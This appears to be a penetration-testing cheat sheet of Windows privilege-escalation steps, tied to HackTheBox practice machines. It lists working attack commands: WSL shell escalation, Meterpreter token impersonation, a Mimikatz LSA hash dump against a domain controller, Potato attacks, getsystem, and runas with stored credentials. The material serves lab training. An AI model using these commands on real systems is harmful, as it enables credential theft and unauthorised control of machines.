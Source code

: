 ## Escalation Path: Windows Subsystem for Linux
- Find out if wsl.exe and bash.exe exists on the windows machine.
	- `where /R c:\windows bash.exe`
	- `where /R c:\windows wsl.exe`
- Check if wsl.exe returns root
	- `wsl.exe whoami`
	- `wsl.exe python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'`
- HTB to practice "SecNotes"

## Impersonation and Potato Attacks
**Token Impersonation with Incognito**
- View if the user has a privilege to impersonate token
	- `whoami /priv`
- We can load incognito from meterpreter shell.
  - `load incognito`
  - `help` - It will show incognito command
  - `list_tokens -u` : List the tokens, we can impersonate the listed users.
  - `impersonate_token marvel\\administrator`
  - `shell`
  - `whoami`
- Attempt to dump hashes as Domain Admin
	- `Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /patch" exit' -Computer HYDRA.marvel.local`
	- `# privilege::debug`
	- `# LSADump::LSA /patch`

**Potato Attacks**
- This attack can be possible when you have `SeImpersonnate` or `SeAssignPrimaryToken` privileges. See via `whoami /priv`
- More about Rotten Potato: https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
- More about Juicy Potato: https://github.com/ohpe/juicy-potato
- HTB to practice: Jeeves

## Escalation Path: getsystem
- Sometimes, Meterpreter elevates you from a local administrator to the SYSTEM user using `getsystem` command
- In Meterpreter
	- `getsystem`
- More on:  https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/

## Escalation Path: RunAs
- Allows a user to run specific tools and programs with different permissions than the user's current logon provides.
- View the current listed/stored credentials
	- `cmdkey /list`
- `C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt`
- HTB to practice: Access
